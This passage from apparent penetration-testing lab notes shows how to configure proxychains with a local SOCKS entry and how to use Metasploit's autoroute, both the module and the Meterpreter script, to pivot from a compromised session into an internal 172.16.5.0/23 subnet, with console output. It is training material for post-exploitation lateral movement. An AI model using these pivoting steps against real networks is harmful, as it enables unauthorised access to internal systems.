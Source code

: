 ### **Configure Proxychains**

```bash
# Add to /etc/proxychains.conf if not present
echo "socks4 127.0.0.1 9050" >> /etc/proxychains.conf
```

**Note:** May need to change `socks4` to `socks5` depending on SOCKS server version.

---

## **4. AutoRoute for Traffic Routing**

### **Configure AutoRoute Module**

```bash
# Set up routing through Meterpreter session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1

msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

### **Alternative: AutoRoute from Meterpreter Session**

```bash
# Add routes directly from Meterpreter
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

### **List Active Routes**

```bash
# View routing table
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================
   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```